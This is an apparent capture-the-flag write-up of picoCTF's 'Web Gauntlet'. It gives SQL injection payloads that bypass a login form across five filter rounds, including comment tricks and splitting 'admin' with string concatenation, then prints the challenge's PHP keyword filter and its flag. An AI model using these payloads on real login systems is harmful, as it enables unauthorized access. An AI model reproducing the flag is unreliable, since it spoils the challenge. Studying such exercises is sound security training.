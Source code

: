 # 1. Web Gauntlet

As soon as i opened the challenge  i got links of 2 websites 1 had the login page and the other page had a set of instructions that apparently changed after each round.
### Round 1:`admin'--`

filters: `or`

The `'` character acts a string delimiter and escapes the username string and it allows any other command to be run. Here `--` is a comment, which comments out `AND password=''`. Which means, any password will work.  

### Round 2: `admin'/*`

filters: `or like and = --`

As `--` was filtered out, we can use `/*` as an alternative to comment out the rest of the query .

### Round 3: `admin'/*`

filters: `or and = like > < --`

This injection string functions same as above. 

### Round 4: `adm'||'in/*`

filters: `or and = like > < -- admin`

Here, the word `admin` was blocked, so what I can do is, break it into two parts and concatenate it using the relevant operators. 
`||` is used to concatenate two strings.   

### Round 5: `adm'||'in/`

filters: `or and = like > < -- admin union`

Same as above 

This is what I got in the `http://shape-facility.picoctf.net:61909/filter.php` after completing all 5 rounds: 

```<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?>
```

## Flag: `picoCTF{y0u_m4d3_1t_79a0ddc6}`
